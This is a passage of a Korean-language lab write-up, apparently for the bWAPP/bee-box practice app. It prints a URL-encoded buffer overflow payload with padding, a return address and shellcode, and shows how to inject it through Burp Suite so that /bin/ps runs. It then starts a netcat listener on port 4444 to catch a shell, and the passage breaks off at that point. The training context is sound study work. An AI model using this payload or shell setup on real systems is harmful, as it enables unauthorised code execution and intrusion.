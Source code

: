 ```bash
root@ming:~/바탕화면# python test.py
%27%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%8f%92%04%08%54%58%2d%05%fd%fd%fd%2d%01%01%01%01%2d%01%01%01%01%50%5c%25%01%01%01%01%25%02%02%02%02%2d%75%1c%30%7d%2d%01%01%01%01%2d%01%01%01%01%50%2d%14%df%74%2b%2d%01%01%01%01%2d%01%01%01%01%50%2d%08%90%25%e1%2d%01%01%01%01%2d%01%01%01%01%50%2d%67%6c%fe%0b%2d%01%01%01%01%2d%01%01%01%01%50%2d%ac%15%24%60%2d%01%01%01%01%2d%01%01%01%01%50%2d%e7%77%7d%1a%2d%01%01%01%01%2d%01%01%01%01%50%2d%67%04%58%7f%2d%01%01%01%01%2d%01%01%01%01%50%2d%96%36%ba%f7%2d%01%01%01%01%2d%01%01%01%01%50%2d%39%ca%e7%7e%2d%01%01%01%01%2d%01%01%01%01%50%2d%92%0e%21%7d%2d%01%01%01%01%2d%01%01%01%01%50%2d%07%e6%58%0e%2d%01%01%01%01%2d%01%01%01%01%50%27
```

### 7. 문제 페이지에 aaaaa를 넣고 BurpSuite로 Intercept 후 페이로드 넣기

![image](https://user-images.githubusercontent.com/28076542/53477152-6e920400-3ab7-11e9-817a-3b02fb923a0c.png)

![image](https://user-images.githubusercontent.com/28076542/53477132-62a64200-3ab7-11e9-8d43-d531418b9cb5.png)

![image](https://user-images.githubusercontent.com/28076542/53477193-85385b00-3ab7-11e9-903e-5bbcf7417134.png)

* 결국 `/bin/ps`를 실행하게 하는 명령어를 삽입한 것

### 8. 결과 확인

![image](https://user-images.githubusercontent.com/28076542/53477438-0b54a180-3ab8-11e9-8ad3-5ed3c2917acb.png)

---

## 강의 외 추가 진행

* [참고 웹 페이지](https://ejtaal.net/infosec/beebox.html)

## Buffer Overflow (Local) (Low)

* Security Level이 Low면 다음과 같이 Shell을 얻을 수 있음

### 1. 칼리리눅스 터미널에서 4444 포트 열기

```bash
root@ming:~/바탕화면# nc -lvp 4444
listening on [any] 4444 ...
```

